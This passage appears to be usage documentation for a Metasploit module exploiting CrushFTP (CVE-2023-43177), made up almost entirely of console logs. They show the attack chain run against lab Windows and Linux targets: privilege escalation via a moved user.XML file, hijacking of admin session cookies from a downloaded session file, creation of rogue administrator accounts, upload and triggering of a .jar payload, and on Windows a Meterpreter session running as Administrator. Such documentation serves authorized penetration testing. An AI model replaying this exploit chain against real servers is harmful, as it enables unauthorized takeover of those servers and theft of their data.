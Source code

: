 ```
[*] Moving user.XML from C:/CrushFTP10/home/readonly/writable1/ to `4a5b85eeb9` home folder and elevate privileges
[*] Logging out session cookie `1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD`
[*] Logging into the elevated account
[*] [do_login] Logging in with username `4a5b85eeb9` and password `9adccf3732`
[+] Logged in! Now let's create a temporary admin account
[*] Logging out session cookie `1711130433073_bRLLcJRdeSHJTIEcRAOpMKzMYL0zLa`
[+] Administrator account created: username=ec71181f81, password=63524a9c6c
[*] [do_login] Logging in with username `ec71181f81` and password `63524a9c6c`
[*] Uploading payload .jar file `ea2c.jar` to C:/Users/Public/ea2c.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted C:/CrushFTP10/home/readonly/writable1/4daf4b7923
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js
[*] Meterpreter session 12 opened (10.4.227.33:61332 -> 192.168.101.54:4444) at 2024-03-22 19:00:49 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/ea2c.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Linux

#### With an active administrator session
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D` is valid session (username: crushadmin)
[*] Checking if user crushadmin is an admin (cookie: 1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=998a245fc4, password=28d3804cfd
[*] [do_login] Logging in with username `998a245fc4` and password `28d3804cfd`
[*] Uploading payload .jar file `d204.jar` to /var/tmp/d204.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.96:4444
[*] Sending stage (57971 bytes) to 192.168.101.96
[+] Deleted /var/tmp/d204.jar
```